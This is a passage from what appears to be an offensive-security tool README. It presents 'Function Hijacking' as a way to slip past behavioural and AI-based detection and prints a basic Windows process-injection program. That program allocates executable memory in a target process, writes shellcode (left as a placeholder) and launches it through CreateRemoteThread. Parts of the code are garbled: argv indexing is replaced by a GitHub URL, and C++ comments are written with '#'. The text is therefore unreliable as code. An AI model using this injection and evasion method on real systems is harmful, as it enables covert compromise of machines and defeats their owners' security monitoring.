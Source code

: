 With the advent of AI/ML models in the detection engineering field, a lot of commonly used TTPs are now
"easier" to detect, even automatically. In this context, the workflow presented may be ultimately converted
into a behaviour, which could be detected by a model.

The main question we would like to answer is whether we really need to fall into this behavioural pattern, or
there is another way. In the following sections, we'll discuss one of the (potentially) many techniques
that fall outside this behavioural pattern: Function Hijacking. 

Function Hijacking abuses an already loaded DLL to write malicious code in a target process.
The malicious code is crafted in such a way that whatever exported function will be invoked 
by the program, the control flow will be redirected to the malicious code.

Upon execution, the technique will then restore the original DLL code, and the program will continue.

## From Basic Process Injection to Module Stomping

Before digging into the technique itself, let's start again with the basics. A trivial process 
injection implementation is provided below:

```cpp
# Thanks @spotheplanet and www.ired.team
# https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] = "<EVIL_BUFFER>";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv(https://github.com/klezVirus/inceptor.git)));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv(https://github.com/klezVirus/inceptor.git))));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}
```

We can easily see how this simple injector falls in the workflow described before:
* Allocate: `VirtualAllocEx`
* Write: `WriteProcessMemory`
* Execute: `CreateRemoteThread`
